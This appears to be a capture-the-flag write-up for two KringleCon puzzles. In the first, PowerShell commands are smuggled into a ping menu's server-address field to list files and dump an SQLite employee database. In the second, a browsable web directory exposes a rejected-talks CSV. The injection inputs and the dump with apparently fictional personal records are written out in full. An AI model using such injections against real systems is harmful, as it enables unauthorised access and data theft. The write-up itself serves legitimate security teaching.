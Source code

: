 ## Objective 2

> Who submitted (First Last) the rejected talk titled Data Loss for Rainbow Teams: A Path in the Darkness? Please analyze [the CFP site](https://cfp.kringlecastle.com/) to find out. 
> For hints on achieving this objective, please visit Minty Candycane and help her with the The Name Game Cranberry Pi terminal challenge.

### Challenge

> Find the first name of our guy "Chan!"
> -Bushy Evergreen

> To solve this challenge, determine the new worker's first name and submit to runtoanswer.

For this challenge you will need:

- Powershell command injection: https://ss64.com/ps/call.html
- SQLite dump: https://www.digitalocean.com/community/questions/how-do-i-dump-an-sqlite-database

Let's access the terminal:
```
====================================================================
=                                                                  =
= S A N T A ' S  C A S T L E  E M P L O Y E E  O N B O A R D I N G =
=                                                                  =
====================================================================




 Press  1 to start the onboard process.
 Press  2 to verify the system.
 Press  q to quit.


Please make a selection: 
```

The onboard process lets you register a person, but we don't care.
The system verification asks for the server address:

```
Validating data store for employee onboard information.
Enter address of server:
```

Trying with `localhost` yealds two important results:
```
Validating data store for employee onboard information.
Enter address of server: localhost
PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.039 ms
64 bytes from localhost (127.0.0.1): icmp_seq=2 ttl=64 time=0.065 ms
64 bytes from localhost (127.0.0.1): icmp_seq=3 ttl=64 time=0.074 ms

--- localhost ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2048ms
rtt min/avg/max/mdev = 0.039/0.059/0.074/0.016 ms
onboard.db: SQLite 3.x database
Press Enter to continue...: 
```
So:
- it seems that `localhost` is passed as a param to ping (possibile injection)
- we have a SQLite 3 database on `onboard.db`

Try to inject some commands, like `&"ls"`:
```
Validating data store for employee onboard information.
Enter address of server: &"ls"
Usage: ping [-aAbBdDfhLnOqrRUvV] [-c count] [-i interval] [-I interface]
            [-m mark] [-M pmtudisc_option] [-l preload] [-p pattern] [-Q tos]
            [-s packetsize] [-S sndbuf] [-t ttl] [-T timestamp_option]
            [-w deadline] [-W timeout] [hop1 ...] destination
menu.ps1  onboard.db  runtoanswer
onboard.db: SQLite 3.x database
```

Nice, command injection works and we found 3 files on the current directory:
- `menu.ps1`: the interface menu
- `onboard.db`: SQLite db
- `runtoanswer`: duh :-)


Let's dump the full database with `& "sqlite3" onboard.db .dump > db.dump`:
```
Validating data store for employee onboard information.
Enter address of server: & "sqlite3" onboard.db .dump > db.dump
Usage: ping [-aAbBdDfhLnOqrRUvV] [-c count] [-i interval] [-I interface]
            [-m mark] [-M pmtudisc_option] [-l preload] [-p pattern] [-Q tos]
            [-s packetsize] [-S sndbuf] [-t ttl] [-T timestamp_option]
            [-w deadline] [-W timeout] [hop1 ...] destination
onboard.db: SQLite 3.x database
Press Enter to continue...: 
```

Did it work? Check with `& "head" -n 20 db.dump`:

```
Validating data store for employee onboard information.
Enter address of server: & "head" -n 20 db.dump
Usage: ping [-aAbBdDfhLnOqrRUvV] [-c count] [-i interval] [-I interface]
            [-m mark] [-M pmtudisc_option] [-l preload] [-p pattern] [-Q tos]
            [-s packetsize] [-S sndbuf] [-t ttl] [-T timestamp_option]
            [-w deadline] [-W timeout] [hop1 ...] destination
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE onboard (
    id INTEGER PRIMARY KEY,
    fname TEXT NOT NULL,
    lname TEXT NOT NULL,
    street1 TEXT,
    street2 TEXT,
    city TEXT,
    postalcode TEXT,
    phone TEXT,
    email TEXT
);
INSERT INTO "onboard" VALUES(10,'Karen','Duck','52 Annfield Rd',NULL,'BEAL','DN14 7AU','077 8656 6609','karensduck@einrot.com');
INSERT INTO "onboard" VALUES(11,'Josephine','Harrell','3 Victoria Road',NULL,'LITTLE ASTON','B74 8XD','079 5532 7917','josephinedharrell@einrot.com');
INSERT INTO "onboard" VALUES(12,'Jason','Madsen','4931 Cliffside Drive',NULL,'Worcester','12197','607-397-0037','jasonlmadsen@einrot.com');
INSERT INTO "onboard" VALUES(13,'Nichole','Murphy','53 St. John Street',NULL,'Craik','S4P 3Y2','306-734-9091','nicholenmurphy@teleworm.us');
INSERT INTO "onboard" VALUES(14,'Mary','Lyons','569 York Mills Rd',NULL,'Toronto','M3B 1Y2','416-274-6639','maryjlyons@superrito.com');
INSERT INTO "onboard" VALUES(15,'Luz','West','1307 Poe Lane',NULL,'Paola','66071','913-557-2372','luzcwest@rhyta.com');
INSERT INTO "onboard" VALUES(16,'Walter','Savell','4782 Neville Street',NULL,'Seymour','47274','812-580-5138','walterdsavell@fleckens.hu');
onboard.db: SQLite 3.x database
Press Enter to continue...: 
```

Now that you have the db, extract the information with `& "grep" Chan db.dump`:
```
Validating data store for employee onboard information.
Enter address of server: & "grep" Chan db.dump
Usage: ping [-aAbBdDfhLnOqrRUvV] [-c count] [-i interval] [-I interface]
            [-m mark] [-M pmtudisc_option] [-l preload] [-p pattern] [-Q tos]
            [-s packetsize] [-S sndbuf] [-t ttl] [-T timestamp_option]
            [-w deadline] [-W timeout] [hop1 ...] destination
INSERT INTO "onboard" VALUES(84,'Scott','Chan','48 Colorado Way',NULL,'Los Angeles','90067','4017533509','scottmchan90067@gmail.com');
onboard.db: SQLite 3.x database
Press Enter to continue...: 
```

Got it! Pass it to `& "runtoanswer"`:
```
Validating data store for employee onboard information.
Enter address of server: & "runtoanswer"
Usage: ping [-aAbBdDfhLnOqrRUvV] [-c count] [-i interval] [-I interface]
            [-m mark] [-M pmtudisc_option] [-l preload] [-p pattern] [-Q tos]
            [-s packetsize] [-S sndbuf] [-t ttl] [-T timestamp_option]
            [-w deadline] [-W timeout] [hop1 ...] destination
Loading, please wait......



Enter Mr. Chan's first name: Scott


                                                                                
    .;looooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooool:'    
  'ooooooooooookOOooooxOOdodOOOOOOOdoxOOdoooooOOkoooooooxO000Okdooooooooooooo;  
 'oooooooooooooXMWooooOMMxodMMNKKKKxoOMMxoooooWMXoooookNMWK0KNMWOooooooooooooo; 
 :oooooooooooooXMWooooOMMxodMM0ooooooOMMxoooooWMXooooxMMKoooooKMMkooooooooooooo 
 coooooooooooooXMMMMMMMMMxodMMWWWW0ooOMMxoooooWMXooooOMMkoooookMM0ooooooooooooo 
 coooooooooooooXMWdddd0MMxodMM0ddddooOMMxoooooWMXooooOMMOoooooOMMkooooooooooooo 
 coooooooooooooXMWooooOMMxodMMKxxxxdoOMMOkkkxoWMXkkkkdXMW0xxk0MMKoooooooooooooo 
 cooooooooooooo0NXooookNNdodXNNNNNNkokNNNNNNOoKNNNNNXookKNNWNXKxooooooooooooooo 
 cooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo 
 cooooooooooooooooooooooooooooooooooMYcNAMEcISooooooooooooooooooooooooooooooooo
 cddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddo 
 OMMMMMMMMMMMMMMMNXXWMMMMMMMNXXWMMMMMMWXKXWMMMMWWWWWWWWWMWWWWWWWWWMMMMMMMMMMMMW 
 OMMMMMMMMMMMMW:  .. ;MMMk'     .NMX:.  .  .lWO         d         xMMMMMMMMMMMW 
 OMMMMMMMMMMMMo  OMMWXMMl  lNMMNxWK  ,XMMMO  .MMMM. .MMMMMMM, .MMMMMMMMMMMMMMMW 
 OMMMMMMMMMMMMX.  .cOWMN  'MMMMMMM;  WMMMMMc  KMMM. .MMMMMMM, .MMMMMMMMMMMMMMMW 
 OMMMMMMMMMMMMMMKo,   KN  ,MMMMMMM,  WMMMMMc  KMMM. .MMMMMMM, .MMMMMMMMMMMMMMMW 
 OMMMMMMMMMMMMKNMMMO  oM,  dWMMWOWk  cWMMMO  ,MMMM. .MMMMMMM, .MMMMMMMMMMMMMMMW 
 OMMMMMMMMMMMMc ...  cWMWl.  .. .NMk.  ..  .oMMMMM. .MMMMMMM, .MMMMMMMMMMMMMMMW 
 xXXXXXXXXXXXXXKOxk0XXXXXXX0kkkKXXXXXKOkxkKXXXXXXXKOKXXXXXXXKO0XXXXXXXXXXXXXXXK 
 .oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo, 
  .looooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo,  
    .,cllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllc;.    
                                                                                

Congratulations!
```

**Hint**: On a website, finding browsable directories is sometimes as simple as removing characters from the end of a URL.


### Objective completion

Access to https://cfp.kringlecastle.com/ and to https://cfp.kringlecastle.com/cfp/cfp.html to see that "The KringleCon CFP is officially closed"

To find browsable directories, try to remove the filename from the url and browse to https://cfp.kringlecastle.com/cfp/:

```
Index of /cfp/
../
cfp.html                                           08-Dec-2018 13:19                3391
rejected-talks.csv                                 08-Dec-2018 13:19               30677
```

Access https://cfp.kringlecastle.com/cfp/rejected-talks.csv and grep/search for "Data Loss for Rainbow Teams":

```
qmt3,2,8040424,200,FALSE,FALSE,John,McClane,Director of Security,Data Loss for Rainbow Teams: A Path in the Darkness,1,11
```

**Objective answer**: `John McClane`

